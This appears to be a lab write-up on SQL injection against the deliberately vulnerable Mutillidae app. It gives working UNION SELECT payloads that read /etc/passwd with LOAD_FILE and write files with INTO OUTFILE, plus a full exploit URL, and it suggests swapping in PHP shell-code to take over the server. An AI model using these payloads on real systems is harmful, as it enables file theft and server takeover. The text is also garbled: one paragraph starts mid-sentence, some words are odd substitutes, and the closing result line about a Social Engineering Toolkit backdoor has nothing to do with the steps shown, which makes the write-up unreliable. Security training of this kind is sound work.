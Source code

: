 ## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.203.1/mutillidae/index.php?page=user-info.php&username=thiru2%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
## OUTPUT :

![Alt text](img/25.png)




the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).





## RESULT:
The Social Engineering Toolkit (SET) is used to create backdoor is  examined successfully
